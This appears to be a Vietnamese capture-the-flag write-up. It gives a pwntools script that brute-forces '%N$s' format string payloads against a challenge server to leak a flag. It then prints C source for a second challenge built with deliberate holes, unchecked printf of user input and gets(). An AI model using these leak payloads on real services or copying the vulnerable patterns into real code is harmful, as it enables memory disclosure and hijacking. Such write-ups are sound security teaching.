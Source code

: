 - Dựa vào mã nguồn này, có thể dễ dàng nhận thấy lỗi cần khai thác là Format String tại **printf(buffer)**
- => Sử dụng lỗi này để leak ra được giá trị của biến **flag** được lưu trữ trên server.

Mình đã viết một payload python để khai thác bài này như sau

```python
from pwn import *


for i in range(100):
    try:
        # p = process('./abyss-dist')
        
        p = remote('0.cloud.chals.io', 27147, level='error')
        p.sendlineafter(b'flag: ', '%{}$s'.format(i).encode())
        result = p.recvline()
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

- Do server đã đóng nên mình sẽ chạy trên local bằng cách bỏ comment ở phần process đi và comment phần remote.

Flag: **Server đóng rồi nên bó tay =)))**

### Chained

- Tương tự bài trên, bài này cũng được cung cấp sẵn source code.

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

char EXPOSED_SYSTEM[100];

void probe_forum(){
    char process_logs[100];
    char intrusion_details[100];
    printf("Intrusion detected.\nPlease enter process logs:\n > ");
    scanf("%s", process_logs);
    printf("Analyzing process logs for ***");
    printf(process_logs);
    printf("***\nPlease enter intrusion details: \n > ");
    scanf("%s", intrusion_details);
    int c;
    while ((c = getchar()) != '\n' && c != EOF);
    if(!strcmp(intrusion_details, "malicious_binary")){
        printf("Intrusion confirmed!\n");
        strncpy(EXPOSED_SYSTEM, process_logs, sizeof(EXPOSED_SYSTEM));
    }
    else{
        printf("Intrusion not confirmed. Exiting analysis.\n");
        exit(-37);
    }
}

void analyze_binary() {
    char binary_operations[400];
    printf("Enter suspected binary operations:\n");
    gets(binary_operations);
    printf("Process Logs: %s Suspected Operations: %s\n", EXPOSED_SYSTEM, binary_operations);
}
```